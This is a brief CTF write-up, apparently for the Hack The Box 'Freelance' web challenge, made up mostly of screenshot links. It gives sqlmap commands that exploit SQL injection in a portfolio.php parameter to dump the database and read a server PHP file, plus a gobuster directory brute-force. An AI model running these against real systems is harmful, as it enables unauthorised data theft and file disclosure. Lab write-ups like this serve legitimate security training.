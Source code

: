 # HTB_Freelance_Web_Challenge_Solution

open Website 
![Open Website](/host.png)

Then right click and Select Source code
![Then right click and Select Source code](/Page_Source.png)

try Sql injection
![Then right click and Select Source code](/link.png)

Enumeration using sqlmap tool
  
  sqlmap -u http://docker.hackthebox.eu:31569/portfolio.php?id=1 --dump --batch
![Then right click and Select Source code](/sqlmap2.png)
![Directory Brute-force using gobuster](/sqlmap1.png)

gobuster dir -u http://docker.hackthebox.eu:31569/ -w /usr/share/wordlists/dirb/common.txt 
![Directory Brute-force using gobuster](/directort1.png)


Read the file in server using sqlmap 
sqlmap -u http://docker.hackthebox.eu:31569/portfolio.php?id=1 --file-read=/var/www/html/administrat/panel.php --dump --batch
![Directory Brute-force using gobuster](/output.png)
![Directory Brute-force using gobuster](/output2.png)

